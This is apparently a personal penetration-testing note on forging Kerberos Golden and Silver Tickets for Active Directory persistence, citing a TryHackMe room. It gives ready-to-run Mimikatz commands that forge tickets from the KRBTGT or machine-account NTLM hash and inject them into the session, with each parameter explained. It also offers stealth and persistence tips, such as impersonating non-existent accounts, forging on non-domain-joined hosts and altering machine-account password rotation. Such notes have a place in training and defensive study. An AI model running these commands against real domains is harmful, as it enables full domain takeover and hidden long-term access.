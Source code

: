 Understanding Kerberos is a must, view: [[Active-Directory-Kerberos-Authenication-Defined]] and then [[Attacking-Kerberos]]. 


When using [[Golden-Tickets]]:
- Extend the valid for X amount time field
- 20 minutes for the Ticket
- Accounts must be 20 minutes old! 
	- Also disabled, deleted, or non-existent account can be impersonated 
- Consider making them on non-domain joined for stealth

When using [[Silver-Tickets]]:
- We can leverage the access our TGS provides to gain access to the host's registry and alter the parameter that is responsible for the password rotation of the machine account
- Permissions are detirmined through SID so Non-existent users must have relevant SIDs, i.e SID that indictated the users to be in host's local administrators group 

Use AD-RSAT for Domain SID, then Golden Ticket with [[Mimikatz-Cheatsheet]]
```powershell
Get-ADDomain
# Mimikatz
# Golden Ticket
kerberos::golden /admin:$admin /domain:/$domain /id:500 /sid:$domain-SID /krbtgt:$krbtgt-hash /endin:600 /renewmax:10080 /ptt
```

-   **/admin** - The username we want to impersonate. This does not have to be a valid user.  
-   **/domain** - The FQDN of the domain we want to generate the ticket for.  
-   **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
-   **/sid** -The SID of the domain we want to generate the ticket for.
-   **/krbtgt** -The NTLM hash of the KRBTGT account.  
-   **/endin** - The ticket lifetime. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 10 hours (600 minutes)  
-   **/renewmax** -The maximum ticket lifetime with renewal. By default, Mimikatz generates a ticket that is valid for 10 years. The default Kerberos policy of AD is 7 days (10080 minutes)  
-   **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session now

```powershell
Get-ADDomain # for Domain SID
# Mimikatz
# Silver Tickets
kerberos::golden /admin:$admin /domain:$domain /id:500 /sid:$Domain-SID /target:$target-hostname-server /rc4:$ntlm-hash-of-machine-account /service:cifs /ptt

```

-   **/admin** - The username we want to impersonate. This does not have to be a valid user.  
-   **/domain** - The FQDN of the domain we want to generate the ticket for.  
-   **/id** -The user RID. By default, Mimikatz uses RID 500, which is the default Administrator account RID.  
-   **/sid** -The SID of the domain we want to generate the ticket for.
-   **/target* - the hostname of target server  
-   **/rc4** - The NTLM has of the machine account of our target
-   **/service** - The service we are requesting in our TGS. CIFs is a safe bet, since it allows file access  
-   **/ptt** - This flag tells Mimikatz to inject the ticket directly into the session now

## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)